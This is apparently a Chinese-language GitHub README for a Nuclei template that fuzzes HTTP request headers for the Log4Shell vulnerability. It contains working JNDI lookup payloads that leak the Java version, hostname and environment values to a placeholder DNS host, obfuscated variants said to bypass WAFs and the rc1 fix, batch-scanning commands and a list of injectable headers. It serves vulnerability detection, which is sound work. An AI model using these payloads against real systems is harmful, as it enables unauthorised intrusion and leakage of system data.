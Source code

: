 
## 1. 更新

### 1.1 structs2版本
添加了structs2静态文件 If-Modified-Since 头利用方式。
参考：https://mp.weixin.qq.com/s/T-rcZnQxxUK1n2_lJNoUZg


### 1.2 structs2 利用变种
添加了structs2利用方式变种。
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


### 1.3 vCenter 利用
添加了vCenter利用
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


### 1.4 solr 利用
添加了Apache solr利用
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


## 2. 关于影响面
有一个新的站点发布了比此前相对更全内容.(包括各类设备与云设施等)
- [Finding applications that use Log4J](https://www.rumble.run/blog/finding-log4j/?fbclid=IwAR0XbJNZ7FjsgVFIk5rlmf002twAaW14SJfdBHFYswWbOzDxzj4YIFnJZPU#affected-products-and-services)

## 3. 关于其他扫描器
有一个新的扫描器挺火的，暂时没有时间验证
- [log4j-scan](https://github.com/fullhunt/log4j-scan)

portswigger 放出了官方的 burpsuite 被动扫描插件，官方的应该挺好用
- Log4Shell Scanner 可以在 plugin store 直接下载

## 4. 关于 log4j2 发现漏洞后的进一步利用

### 4.1 探测 jdk 版本等
```
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://${hostName}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
```
![image-20211214113047711](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20211214113047711.png)

### 4.2 一次性探测完
```
${jndi:ldap://${sys:java.vendor}.@.${sys:java.version}.@.${hostName}.test.dnslog.cn/exp}
```

### 4.3 使用tomcat等可绕过高版本jdk限制的反序列化链
可以使用 
 - [veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi)
 - [welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
 - [JNDIExploit](https://github.com/GreyDr34d/JNDIExploit)


## 5. 关于类似漏洞的挖掘 
### 5.1 挖掘其他可能存在 JndiLookup.class 的 jar 包
powershell 命令：
```powershell
gci 'C:\' -rec -force -include *.jar -ea 0 | foreach {select-string "JndiLookup.class" $_} | select -exp Path
```

# log4j-fuzz-head-poc轻量级检测
针对 log4j来批量fuzzz 请求头检测，有效检测一些头部存在的安全风险，nuclei默认使用interactsh的dnslog

为什么用这种，这种方法也是从蜜罐中获取到攻击组织最常用的方法，简单，有效

### v2版本
添加了绕过rc1的poc
也同时能绕过常见主流waf拦截，还有高版本jdk绕过
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 10 单个检测  速率为10（速率不要太高）

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 10   批量检测  速率为10（速率不要太高）
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

* X-Client-IP
* X-Remote-IP
* X-Remote-Addr
* X-Forwarded-For
* X-Originating-IP
* User-Agent
* Referer
* CF-Connecting_IP
* True-Client-IP
* X-Forwarded-For
* Originating-IP
* X-Real-IP
* X-Client-IP
* Forwarded
* Client-IP
* Contact
* X-Wap-Profile
* X-Api-Version
* If-Modified-Since(structs2)


